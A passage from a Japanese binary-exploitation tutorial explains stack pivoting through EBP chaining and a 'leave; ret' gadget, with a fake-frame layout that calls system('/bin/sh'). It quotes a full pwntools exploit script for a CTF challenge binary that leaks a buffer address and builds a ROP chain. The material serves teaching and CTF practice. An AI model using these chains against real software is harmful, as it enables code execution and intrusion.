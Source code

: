 また、スタックに RET スレッドを置き、本当の ROP チェーンを末尾に置くことで、新しい RSP がスレッド内部を指し、最終的な ROP チェーンが実行される確率を高めるのが一般的です。

### EBP Chaining

スタックの保存された `EBP` スロットに制御されたアドレスを置き、`EIP/RIP` に `leave; ret` ガジェットを置くことで、`ESP/RSP` を攻撃者が制御するアドレスへ移すことが可能になります。

これで `RSP` が制御され、次の命令は `ret` です。制御されたメモリには例えば次のようなものを置きます：

- `&(next fake EBP)` -> Loaded by `pop ebp/rbp` from `leave`.
- `&system()` -> Called by `ret`.
- `&(leave;ret)` -> After `system` ends, moves RSP to the next fake EBP and continues.
- `&("/bin/sh")` -> Argument for `system`.

こうして複数の偽 EBP をチェーンしてプログラムの制御フローを操作することができます。

これは [ret2lib](../rop-return-oriented-programing/ret2lib/index.html) に似ていますが、より複雑でエッジケースでしか有用ではありません。

さらに、この手法を **stack leak** と組み合わせて勝利関数を呼び出す例題の[**example of a challenge**](https://ir0nstone.gitbook.io/notes/types/stack/stack-pivoting/exploitation/leave)があります。以下はそのページの最終ペイロードです：
```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

p.recvuntil('to: ')
buffer = int(p.recvline(), 16)
log.success(f'Buffer: {hex(buffer)}')

LEAVE_RET = 0x40117c
POP_RDI = 0x40122b
POP_RSI_R15 = 0x401229

payload = flat(
0x0,               # rbp (could be the address of another fake RBP)
POP_RDI,
0xdeadbeef,
POP_RSI_R15,
0xdeadc0de,
0x0,
elf.sym['winner']
)

payload = payload.ljust(96, b'A')     # pad to 96 (reach saved RBP)

payload += flat(
buffer,         # Load leaked address in RBP
LEAVE_RET       # Use leave to move RSP to the user ROP chain and ret to execute it
)

pause()
p.sendline(payload)
print(p.recvline())
```
> amd64 アラインメントのヒント: System V ABI は call サイトで 16 バイトのスタック整列を要求します。チェーンが `system` のような関数を呼ぶ場合、アラインメントを維持して `movaps` によるクラッシュを避けるために、呼び出しの前にアラインメント gadget (例: `ret` または `sub rsp, 8 ; ret`) を追加してください。
